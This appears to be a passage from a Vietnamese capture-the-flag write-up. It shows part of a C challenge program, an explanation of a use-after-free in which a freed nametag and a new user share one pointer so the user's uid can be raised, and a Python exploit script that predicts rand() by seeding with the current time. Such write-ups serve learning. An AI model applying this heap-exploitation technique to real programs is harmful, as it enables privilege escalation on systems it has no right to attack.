 ```c
                        while ((ch = fgetc(flag)) != EOF) {
                            printf("%c", ch);
                        }
                    }
                    fclose(flag);
                    exit(0);
                    break;
                } else {
                    printf("EMERGENCY EMERGENCY UNAUTHORIZED USER HAS TRIED TO FREE LOKI!\n");
                    printf("Time police rush to the room where you stand in shock. They rush you away, take your gear, and kick you back to your own timeline.\n");
                    log_out();
                    input = 0;
                    break;
                }
        }

        if (input != 0) {
            input = print_menu();
        }
    }
    return input;
}
```

- để tận dụng `uaf` thay đổi `curr_user->uid >= 0x600000` ta sẽ làm như sau , trước hết là dùng option3 cho đến khi nó malloc 1 `nametag` , sau đó ta cần chọn lại option3 để nó `free` `nametag` , nếu rơi vào case2 thì sẽ không thành công , tiếp theo là reg `user` mới , lúc này `user` và `nametag_t` sẽ cùng 1 con trỏ -> ta sẽ chọn tiếp option3 và nếu may mắn rơi vào case2 thì ta sẽ trigger thành công , cuối cùng là chọn option4 và option7 là xong


```python
def exploit():
    val1 = glibc.srand(glibc.time(0))
    print(f"hehe: {hex(val1)}")
    input()
    sa(b"now:", b"a")
    while True:
        val = glibc.rand() % 5 + 1
        print(f"val: {hex(val)}")
        if val == 2:
            sla(b"Leave", b"3")
            sleep(0.5)
            s(b"abcd")
            sleep(0.5)
            s(b"abcd")
            break
        else:
            sla(b"6. Leave", b"3")
    val = glibc.rand() % 5 + 1
    print(f"val {hex(val)}")
    sl(b"3")
    sl(b"1")
    sa(b"now:", b"a")
    val = glibc.rand() % 5 + 1
    print(f"val: {hex(val)}")
    if val == 2:
        print("ngon")
    else:
        print("cust")
    sl(b"3")
    input()
    s(b"abcd")
```